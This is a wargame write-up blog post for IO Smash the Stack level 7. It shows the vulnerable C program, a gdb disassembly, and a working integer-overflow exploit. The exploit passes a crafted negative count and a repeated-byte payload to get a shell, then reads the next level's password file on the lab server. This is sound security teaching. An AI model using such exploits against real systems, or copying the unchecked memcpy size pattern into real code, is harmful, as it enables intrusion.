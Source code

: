 +++
title = "IO Smash the stack level 07"
date = "2016-01-28T21:54:00-02:00"
publishdate = "2016-01-28"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-07"
project_url = "https://greyhat.dk/io-smashthestack-level-07"
type = "post"
+++

## Level07

level7@io:/levels$ cat level07.c
```c
//written by bla
#include <stdio.h>
#include <string.h>
#include <unistd.h>



int main(int argc, char **argv)
{

        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 )
                return 1;


        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
		printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
	} else
                printf("Not today son\n");


        return 0;
}
```

Oki so count has to be 10 or less to invoke the memcpy but in order to get a shell count has to be 0x574f4c46 (1464814662). So we need to overflow the stack to overwrite count but since we can only specify a negative number we need to make an integer overflow.


```sh
level7@io:/levels$ gdb -q ./level07
Reading symbols from /levels/level07...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048414 <+0>:	push   %ebp
   0x08048415 <+1>:	mov    %esp,%ebp
   0x08048417 <+3>:	sub    $0x68,%esp
   0x0804841a <+6>:	and    $0xfffffff0,%esp
   0x0804841d <+9>:	mov    $0x0,%eax
   0x08048422 <+14>:	sub    %eax,%esp
   0x08048424 <+16>:	mov    0xc(%ebp),%eax
   0x08048427 <+19>:	add    $0x4,%eax
   0x0804842a <+22>:	mov    (%eax),%eax
   0x0804842c <+24>:	mov    %eax,(%esp)
   0x0804842f <+27>:	call   0x8048354 <atoi@plt>
   0x08048434 <+32>:	mov    %eax,-0xc(%ebp)
   0x08048437 <+35>:	cmpl   $0x9,-0xc(%ebp)
   0x0804843b <+39>:	jle    0x8048446 <main+50>
   0x0804843d <+41>:	movl   $0x1,-0x4c(%ebp)
   0x08048444 <+48>:	jmp    0x80484ad <main+153>
   0x08048446 <+50>:	mov    -0xc(%ebp),%eax
   0x08048449 <+53>:	shl    $0x2,%eax
   0x0804844c <+56>:	mov    %eax,0x8(%esp)
   0x08048450 <+60>:	mov    0xc(%ebp),%eax
   0x08048453 <+63>:	add    $0x8,%eax
   0x08048456 <+66>:	mov    (%eax),%eax
   0x08048458 <+68>:	mov    %eax,0x4(%esp)
   0x0804845c <+72>:	lea    -0x48(%ebp),%eax    <--- load buf
   0x0804845f <+75>:	mov    %eax,(%esp)
   0x08048462 <+78>:	call   0x8048334 <memcpy@plt>
   0x08048467 <+83>:	cmpl   $0x574f4c46,-0xc(%ebp)
   0x0804846e <+90>:	jne    0x804849a <main+134>
   0x08048470 <+92>:	movl   $0x8048584,(%esp)
   0x08048477 <+99>:	call   0x8048344 <printf@plt>
   0x0804847c <+104>:	movl   $0x0,0x8(%esp)
   0x08048484 <+112>:	movl   $0x804858a,0x4(%esp)
   0x0804848c <+120>:	movl   $0x804858d,(%esp)
   0x08048493 <+127>:	call   0x8048324 <execl@plt>
   0x08048498 <+132>:	jmp    0x80484a6 <main+146>
   0x0804849a <+134>:	movl   $0x8048595,(%esp)
   0x080484a1 <+141>:	call   0x8048344 <printf@plt>
   0x080484a6 <+146>:	movl   $0x0,-0x4c(%ebp)
   0x080484ad <+153>:	mov    -0x4c(%ebp),%eax
   0x080484b0 <+156>:	leave
   0x080484b1 <+157>:	ret
End of assembler dump.
(gdb) !echo "ibase=16;48"|bc
72
```

Ok we need to find an integer overflow that gives us a buffer of 72 or more. For this I wrote a small test in C. Remember that

Maximum int 2^32

Minimum int -2^31

and I assume that the size of int is 4 bytes

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
 int a = atoi(argv[1]);

 printf("%d and len %d\n", a, a*sizeof(int));

 return 0;
}
```

```sh
kgn@kali:~$ ./intoverflow $(echo "(-2^31)+(72/4)"|bc)
-2147483630 and len 72
```

Back to GDB

```sh
(gdb) r $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
Starting program: /levels/level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
process 1800 is executing new program: /bin/bash
sh-4.2$
```

Outside GDB

```sh
level7@io:/levels$ ./level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
sh-4.2$ cat /home/level8/.pass
XXXXXXXXXXXXXXXX
```
